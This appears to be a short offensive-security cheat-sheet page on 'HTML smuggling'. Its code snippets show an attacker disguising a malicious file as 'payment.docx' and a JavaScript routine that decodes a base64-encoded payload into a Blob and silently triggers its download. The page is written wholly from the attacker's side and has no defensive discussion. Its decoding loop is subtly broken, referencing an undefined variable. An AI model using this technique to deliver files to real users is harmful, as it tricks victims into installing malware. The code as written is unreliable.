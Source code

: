 ```yaml
---
title: HTML Smuggling
description: Attackers hosts a malicious file and can invite victim to download it using the HTML Smuggling technique.
tags:
    - Web
refs:
    - https://www.cyfirma.com/outofband/html-smuggling-a-stealthier-approach-to-deliver-malware/
date: 2023-07-26
draft: false
---
```


## Exploitation

Attackers can use **`anchor`** tag to invite victim to download a malicious file as below. When clicking, the malicious file is downloaded as the name “payment.docx”.

```html
<a href="/malicious_doc.docx" download="payment.docx">Cliek Here</a>
```

Alternatively, attackers can also use JavaScript, then let browsers to download a malicious file when loading the page, or invite victim to click download button.

```jsx
var a = document.createElement('a');
a.download = 'malicious_doc.docx'
```

### Using JavaScript Blob

By using blob, attackers can let victim to download a malicious file while obfuscate its content by encoding/decoding malicious code.

```js
// Decode Base64 encoded malicious code
var malBase64 = '<BASE64_ENCODED_CODE>';
var malBinStr = window.atob(malBase64);
var malLen = malBinStr.length;
var malBytes = new Uint8Array(malLen);
for (var i = 0; i < malLen; i++) {
	malBytes[i] = malBin.charCodeAt(i);
}

// Create a blob
// 'octet/stream' allows any file types.
var malBlob = new Blob([malBytes.buffer], {type: 'octet/stream'});
var malUrl = window.URL.createObjectURL(malBlob);

// Create a downloadable anchor (automatically download)
var a = document.createElement('a');
a.style.display = 'none';
a.href = malUrl;
a.download = 'mal.py';
document.body.appendChild(a);
// this anchor will be clicked automatically.
a.click();
document.body.removeChild(a);
```
